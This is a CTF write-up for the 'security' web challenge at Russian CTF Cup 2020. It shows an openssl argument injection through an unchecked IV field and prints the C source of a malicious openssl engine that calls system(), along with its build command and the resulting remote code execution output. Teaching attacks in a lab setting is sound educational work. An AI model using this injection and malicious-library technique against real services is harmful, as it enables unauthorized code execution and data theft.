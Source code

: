 +++
title = 'Russian CTF Cup 2020 — security'
date = 2020-11-30T12:39:19+03:00
tags = ['ctf', 'writeup', 'web']
toc = true
tldr = 'provide a native engine to openssl using an injection to command arguments'
+++

The full source code is available here: [https://github.com/keltecc/ctfcup-2020-web-tasks/tree/master/security](https://github.com/keltecc/ctfcup-2020-web-tasks/tree/master/security). Note that the challenge source code was not provided to participants.

## Overview 

The challenge is a web service that could encrypt and decrypt arbitary data with an arbitrary key.

![interface](interface.png)

We could try to provide an invalid parameters (for example bad key or iv length) in order to get the backend error. The error looks like this:

```
bad decrypt
140489628592896:error:06065064:digital envelope routines:EVP_DecryptFinal_ex:bad decrypt:evp_enc.c:531:
```

We can google this error and recognize the `openssl` library. Let's try to send another invalid parameters to gather more backend errors. The service contains the following checks:

- key length and IV length should be 32
- the mode should be selected from modes in web interface
- during the decryption a ciphertext should be hex-encoded
- the key should contain only hex symbols, **but for IV this check is missed**

Since the IV could contain arbitrary symbols, let's try to pass some symbols. Note that we need to use CBC mode since ECB does not use IV. If we pass a whitespace as an IV symbol (for example `8F0151BC1F8C30E2992DE5DF9CF121 C`) we will get the following error:

```
unknown option 'C'
options are
-in <file>     input file
-out <file>    output file
-pass <arg>    pass phrase source
-e             encrypt
-d             decrypt
-a/-base64     base64 encode/decode, depending on encryption flag
-k             passphrase is the next argument
-kfile         passphrase is the first line of the file argument
-md            the next argument is the md to use to create a key
                 from a passphrase.  One of md2, md5, sha or sha1
-S             salt in hex is the next argument
-K/-iv         key/iv in hex is the next argument
-[pP]          print the iv/key (then exit if -P)
-bufsize <n>   buffer size
-nopad         disable standard block padding
-engine e      use engine e, possibly a hardware device.
Cipher Types
-aes-128-cbc               -aes-128-ccm               -aes-128-cfb              
-aes-128-cfb1              -aes-128-cfb8              -aes-128-ctr              
...
```

It means that the `openssl` have splitted our IV by whitespace and used `C` as another argument. It means that `openssl` is executed in command line and we can control its arguments.

## Solution

Let's look what we could do with command injection.

- we immediately could read and write arbitrary files on the system using `-in <file>` and `-out <file>` parameters, note that the content will be decrypted so we need to pass an encrypted file content
- we could notice the interesting key:

```
-engine e      use engine e, possibly a hardware device.
```

This key is used to provide a custom native engine for `openssl`, the engine is a `.so` library which incapsulates the functions for encryption and decryption. Since we're able to upload files we can upload `.so` file and provide it with the `-engine` parameter.

The example of native engine could be found on the internet. The simplest example is the following:

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
    system("id");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

This code should execute `id` during the encryption process. Let's build it as a library and upload to `/tmp/libsploit.so` using `-out <file>` parameter:

```
gcc -fPIC -shared -lcrypto -o libsploit.so libsploit.c
```

Then provide `-engine /tmp/libsploit.so` parameter for `openssl`:

```
invalid engine "/tmp/libsploit.so"
139644963072768:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
139644963072768:error:2606A074:engine routines:ENGINE_by_id:no such engine:eng_list.c:390:id=/tmp/libsploit.so
139644963072768:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
bad decrypt
139644963072768:error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length:evp_enc.c:520:
uid=1000(security) gid=1000(security) groups=1000(security)
uid=1000(security) gid=1000(security) groups=1000(security)
```

This error means that our engine does not export required functions for encryption. But the `bind()` function is called and we got RCE. Let's send `ls -la && cat flag*` to read the flag.

```
invalid engine "/tmp/libsploit.so"
140500984400640:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
140500984400640:error:2606A074:engine routines:ENGINE_by_id:no such engine:eng_list.c:390:id=/tmp/libsploit.so
140500984400640:error:260B606D:engine routines:DYNAMIC_LOAD:init failed:eng_dyn.c:545:
bad decrypt
140500984400640:error:0606506D:digital envelope routines:EVP_DecryptFinal_ex:wrong final block length:evp_enc.c:520:
total 24
drwxr-xr-x 1 root root 4096 Nov 29 20:38 .
drwxr-xr-x 1 root root 4096 Nov 26 20:37 ..
-rw-r--r-- 1 root root   40 Nov 26 21:21 flag_ff9b671626b8477012f041dc42d76c885341bb35c5290fe4a2ae965d80d70a12.txt
-rw-r--r-- 1 root root 2104 Nov 26 20:25 libcrypt.py
-rwxr-xr-x 1 root root 2318 Nov 26 20:59 security_7b6ae759.py
drwxr-xr-x 2 root root 4096 Nov 29 20:38 templates
ctfcup{0p3nssl_1.0_1s_d4ng3r0usssz....}
```
